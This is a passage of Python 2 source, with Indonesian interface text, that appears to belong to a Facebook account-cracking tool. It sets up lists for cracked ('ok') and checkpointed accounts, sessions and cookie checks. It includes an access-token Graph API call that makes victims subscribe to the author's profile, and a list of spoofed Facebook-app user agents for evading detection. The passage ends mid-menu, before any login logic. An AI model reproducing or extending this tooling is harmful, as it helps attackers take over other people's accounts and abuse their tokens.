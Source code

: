 folow = "https://graph.facebook.com/id_saya/subscribers?access_token="
fb = "https://m.facebook.com"
url_ip = "https://www.httpbin.org/ip"

user = []
user_id = []
hasil_ok = []
hasil_cp = []
data_user = []

cari_teman = []
ttl_ = []
sesi = []
cek_cokie = []
count_ = 0
garis = h+"+"+a+">>>--"+p
try:
	ipm = requests.get(url_ip).json()
	ip = ipm["origin"]
except requests.exceptions.ConnectionError:
	print k+"\n [!] Tidak ada Koneksi Internet..\n"
	exit()

ua_ = []
ua_hp = []
pil_ua = []

log_ml_dev = []
log_ff_dev = []
log_mbasic_dev = []
log_free_dev = []

try:
	open("ua_dev.txt", "r").read()
	ua_.append("dev_id")

except IOError:
	pass

user_agent_dev = [
					"Mozilla/5.0 (Linux; Android 10; Redmi Note 8 Pro Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/83.0.4103.106 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/275.0.0.49.127;]",
					"[FBAN/FB4A;FBAV/246.0.0.49.121;FBBV/181448449;FBDM/{density=1.5,width=540,height=960};FBLC/en_US;FBRV/183119516;FBCR/TM;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1606;FBSV/6.0.1;FBOP/1;FBCA/armeabi-v7a:armeabi;]",
					"Dalvik/2.1.0 (Linux; U; Android 5.1.1; SM-J320F Build/LMY47V) [FBAN/FB4A;FBAV/43.0.0.29.147;FBPN/com.facebook.katana;FBLC/en_GB;FBBV/14274161;FBCR/Tele2 LT;FBMF/samsung;FBBD/samsung;FBDV/SM-J320F;FBSV/5.0;FBCA/armeabi-v7a:armeabi;FBDM/{density=3.0,width=1080,height=1920};FB_FW/1;]",
					"Mozilla/5.0 (Linux; Android 5.1.1; A37f Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.152 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/305.1.0.40.120;]",
					"Mozilla/5.0 (Linux; Android 10; REALME RMX1911 Build/NMF26F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.111 Mobile Safari/537.36 AlohaBrowser/2.20.3",
					"Mozilla/5.0 (iPhone; CPU iPhone OS 11_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E216 [FBAN/FBIOS;FBAV/170.0.0.60.91;FBBV/105964764;FBDV/iPhone10,1;FBMD/iPhone;FBSN/iOS;FBSV/11.3;FBSS/2;FBCR/Sprint;FBID/phone;FBLC/en_US;FBOP/5;FBRV/106631002]",
					"Mozilla/5.0 (Linux; Android 7.1.1; ASUS Chromebook Flip C302 Build/R70-11021.56.0; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.80 Safari/537.36 [FB_IAB/FB4A;FBAV/198.0.0.53.101;]"
				 ]
def __seting_ua_dev__():
	print garis
	print k+"\n   *"+p+" Setting User-Agent"
	print k+"   ?"+h+" Hp Kamu Apa?"
	print garis
	print h+" ["+p+"1"+h+"]"+p+" Xiaomi"
	print h+" ["+p+"2"+h+"]"+p+" Vivo "
